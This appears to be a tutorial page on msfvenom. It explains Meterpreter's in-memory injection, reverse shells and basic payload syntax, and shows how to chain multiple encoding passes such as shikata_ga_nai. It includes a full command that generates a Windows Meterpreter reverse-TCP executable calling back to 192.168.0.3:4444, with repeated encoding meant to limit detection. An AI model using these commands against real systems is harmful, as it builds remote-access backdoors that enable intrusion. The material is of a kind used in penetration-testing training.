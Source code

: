 The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.

## How to chain msfvenom output

The old `msfpayload` and `msfencode` utilities were often chained together in order layer on multiple encodings. This is possible using `msfvenom` as well:

```plaintext
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
```

```
msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
```

```
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```


---

### Creating Metasploit payloads with Msfvenom

Meterpreter is deployed using in-memory DLL injection. As a result, Meterpreter resides entirely in memory and writes nothing to disk. 

No new processes are created as Meterpreter injects itself into the compromised process, from which it can migrate to other running processes. As a result, the forensic footprint of an attack is very limited.

**A DLL is a library that contains code and data that can be used by more than one program at the same time.**

A reverse shell attack exploits vulnerabilities in a target system, allowing the attacker to gain remote access and control over the victim’s computer. It involves establishing a shell session by opening communication channels between the attacker’s machine and the target system.


**Basic Syntax:**

```
msfvenom -p <payload> <options> -f <format> -o <output_file>
```

**Where:**

`-p <payload>` : Specifies the payload to generate.

`<options>`  : These vary depending on the payload.

- `LHOST`: The attacker's IP address.
- `LPORT`: The attacker's listening port.

`-f <format>` : Specifies the output format, such as `exe`, `apk`, `python`, or `raw`.

`-o <output_file>` : Specifies the output file name and path.
